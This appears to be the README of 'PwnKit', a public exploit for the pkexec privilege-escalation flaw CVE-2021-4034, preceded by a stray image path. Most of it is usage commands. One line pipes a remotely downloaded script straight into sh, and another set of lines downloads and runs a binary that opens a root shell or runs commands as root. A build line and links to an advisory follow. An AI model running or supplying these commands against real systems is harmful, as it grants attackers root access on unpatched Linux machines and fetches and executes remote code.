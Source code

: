 # PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### Manual

```bash
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

### Build

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

## Example

### Vulnerable

![](./imgs/exploit.png)

### Patched

![](./imgs/patched.png)

## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/